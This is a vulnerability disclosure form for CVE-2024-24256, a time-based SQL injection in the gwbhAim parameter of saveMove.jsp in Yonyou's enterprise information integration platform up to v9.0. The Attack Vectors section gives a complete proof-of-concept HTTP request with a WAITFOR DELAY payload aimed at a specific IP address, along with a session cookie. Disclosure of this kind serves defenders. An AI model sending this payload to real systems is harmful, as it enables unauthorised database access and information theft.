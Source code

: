 > [Suggested description]
> SQL Injection vulnerability in Yonyou space-time enterprise information
> integration platform v.9.0 and before allows an attacker to obtain
> sensitive information via the gwbhAIM parameter in the saveMove.jsp in
> the hr_position directory.
>
> ------------------------------------------
>
> [Vulnerability Type]
> SQL Injection
>
> ------------------------------------------
>
> [Vendor of Product]
> https://www.yonyou.com/
>
> ------------------------------------------
>
> [Affected Product Code Base]
> Yonyou space-time enterprise information integration platform - <=V9.0
>
> ------------------------------------------
>
> [Affected Component]
> The gwbhAim parameter saveMove.jsp in the /hr_position/ directory goes directly into the database time delay injection without processing
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> POC:
> GET /hr_position/saveMove.jsp?gwbhAim=211';WAITFOR+DELAY+'0:0:2'-- HTTP/1.1
> Host: 218.207.206.172:5080
> Upgrade-Insecure-Requests: 1
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
> Referer: http://218.207.206.172:5080/login.jsp
> Accept-Encoding: gzip, deflate
> Accept-Language: zh-CN,zh;q=0.9
> Cookie: JSESSIONID=14E9CA8A4F3FB5919CADB82134FEBFE7
> Connection: close
>

>
> ------------------------------------------
>
> [Discoverer]
> l8l1
>
> ------------------------------------------
>
> [Reference]
> http://yonyou.com
> https://www.yonyou.com/

Use CVE-2024-24256.
